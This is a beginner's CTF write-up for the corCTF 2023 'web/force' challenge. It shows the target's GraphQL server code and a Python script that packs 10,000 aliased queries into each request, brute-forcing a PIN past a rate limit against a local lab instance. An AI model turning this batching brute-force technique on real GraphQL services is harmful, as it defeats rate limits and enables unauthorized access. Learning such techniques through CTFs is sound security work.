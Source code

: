 ```yaml
---
title: "2023 corCTF"
description: "Writeup for 2023 corCTF competition."
date: "Aug 1 2023"
---
```


## Background

corCTF 2023 was a CTF event organized by Crusader of Rust team and was held from Sat, 29 July 2023, 12:00 UTC — Mon, 31 July 2023, 12:00 UTC. There are a total of 39 challenges, with catrgories made up of reverse engineering, web, pwn, crypto and blockchain. Being a novice in CTF and cybersecurity in general, I only managed to complete 1 challenge, which is Force under the web category.

## web/force

In this challenge we are given tarball file to be download. It contains the source code of the web app that we can run as Docker using the Dockerfile provided.

```bash
FROM node:18

WORKDIR /app
COPY src/package* ./
RUN npm ci

COPY src/ .

CMD ["node", "--expose-gc", "web.js"]
```

We can then build the image and run it for testing. I use localhost port 8090 for this container.

```bash
> docker build -t web/force .
docker.io/library/node:18@sha256:c85dc4392f44f5de1d0d72dd20a088a542734445f99bed7aa8ac895c706d370d
writing image sha256:7d7d7a1e650b11de69f6cd2deda18c7c5647c127422c8234927bb25a7f236a34
naming to docker.io/web/force
> docker run -d -p 8090:80 web/force
55c31fd6a62e762300677d9e8cbd8bc9063935860a203e1052d253b106fa8f3b
```

Navigating using the browser we are greeted with the following page

![main_page](./img/force_main.png)

At first I thought the query in the text box is just a normal JSON format. But after looking into the source code I realized that it is GraphQL query. Before trying any exploit, I first try web app as intended to see how it behaves.

![first_try](./img/force_first_try.png)

Knowing nothing about GraphQL, I do some research online on how GraphQL works and looking up if there are any known vulnerabilities. One of the features of GraphQL is batch querying[^1] where you can do several queries at the same time using only one HTTP request. Thus, this makes for a suitable attack vector for bruteforcing the pin combination[^2]. I then look to the `web.js` for more information of the app.

```js
import fastify from "fastify";
import mercurius from "mercurius";
import { randomInt } from "crypto";
import { readFile } from "fs/promises";

const app = fastify({
  logger: true,
});

const index = await readFile("./index.html", "utf-8");
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
let requests = 10;

setInterval(() => (requests = 10), 60000);

await app.register(mercurius, {
  schema: `type Query {
        flag(pin: Int): String
    }`,
  resolvers: {
    Query: {
      flag: (_, { pin }) => {
        if (pin != secret) {
          return "Wrong!";
        }
        return process.env.FLAG || "corctf{test}";
      },
    },
  },
  routes: false,
});

app.get("/", (req, res) => {
  return res.header("Content-Type", "text/html").send(index);
});

app.post("/", async (req, res) => {
  if (requests <= 0) {
    return res.send("no u");
  }
  requests--;
  return res.graphql(req.body);
});

app.listen({ host: "0.0.0.0", port: 80 });
```

In order to get the flag, the pin we provide need to be the same as the secret value, which is the correct pin. From the code, we can see that the secret value is between 1 and 100k and the maximum number of request that the app accept before refusing to try the query is 10. From this information we can make a batch query with 10k pins each request. To simplify this, I make a python script.

```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
   
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}

while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
   
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
   
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
       
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

This script is probably not the most optimized script but it gets the job done. Running this we can get the flag.

```bash
> python solve.py
retrying...
retrying...
retrying...
retrying...
flag: corctf{test}
```

Running this in the challenge's instance we'll get the flag:

```bash
corctf{S T O N K S}
```

## Fin

Even though I only managed to solve 1 challenge, it is a fun experience and I learned a lot from it. I'm looking forward to learn more about cybersecurity and much looking forward to next year's corCTF. Thank you for reading.

[^1]: https://graphql.org/learn/queries/#aliases
[^2]: https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#batching-attacks
